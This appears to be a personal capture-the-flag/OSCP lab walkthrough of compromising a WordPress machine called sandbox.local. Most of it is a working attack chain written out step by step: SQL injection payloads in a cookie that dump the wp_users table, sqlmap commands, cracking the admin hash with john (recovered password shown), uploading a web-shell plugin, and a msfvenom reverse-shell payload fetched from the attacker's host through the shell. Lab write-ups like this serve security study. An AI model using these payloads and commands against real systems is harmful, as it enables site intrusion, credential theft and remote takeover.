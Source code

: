 #### Breakdown

```
sudo bash -c " echo ‘10.11.1.250 sandbox.local’ >> /etc/hosts"

```

```
sudo nmap -sC -sS -p0-65535 sandbox.local

dirb http://sandbox.local -o dirb.out

wpscan --url sandbox.local --enumerate ap,at,cb,dbe -o wp-out.txt

wp_sap cookie value

["1650149780')) OR 1=2 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,@@version,11#"]

 ["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,table_name,11 FROM information_schema.tables#"]

 ["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,column_name,11 FROM information_schema.columns WHERE table_name='wp_users'#"]

["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,user_login,11 FROM wp_users#"]

["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,user_pass,11 FROM wp_users#"]

```

Using sqlmap

```

sqlmap --url='http://sandbox.local/' --cookie="wp_sap=[\"1650149780')) OR 1=2 *#\"]" --dbms=mysql --union-cols=10-11 --technique U 

sqlmap -r req.txt  --dbms=mysql --union-cols=10-11 --technique U   --level=3 --current-db --tables 

sqlmap -r req.txt  --dbms=mysql --union-cols=10-11 --technique U   --level=3 -D wordpress -T wp_users --dump

```

content of req.txt

```
┌──(kali㉿kali)-[~/oscp/machines/sandbox]
└─$ cat req.txt 
GET / HTTP/1.1
Host: sandbox.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://sandbox.local/
DNT: 1
Connection: close
Cookie: wp_sap=["1650149780')) OR 1=2 *#"];
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

```

hash from sqlmap: $P$BfBIi66MsPQgzmvYsUzwjc5vSx9L6i\\\\\\/

6 \ is for one /.
Real hash: $P$BfBIi66MsPQgzmvYsUzwjc5vSx9L6i/

on web ui there were three \ in the hash.

user: wp_ajla_admin
 
cracking password:

john --wordlist=/usr/share/wordlists/rockyou.txt pass.txt

```
┌──(kali㉿kali)-[~/…/share/sqlmap/output/sandbox.local]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt pass.txt        
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!love29jan2006!  (?)     
1g 0:00:04:45 DONE (2022-06-22 21:18) 0.003497g/s 50146p/s 50146c/s 50146C/s !luv2:P..!kasumi12
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed. 

```

cp /usr/share/seclists/Web-Shells/WordPress/plugin-shell.php .

zip plugin-shell.zip plugin-shell.php

http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.119.175 LPORT=443 -f elf > shell.elf

python -m http.server 80

http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=wget%20http://192.168.119.175/shell.elf

http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=chmod%20+x%20shell.elf

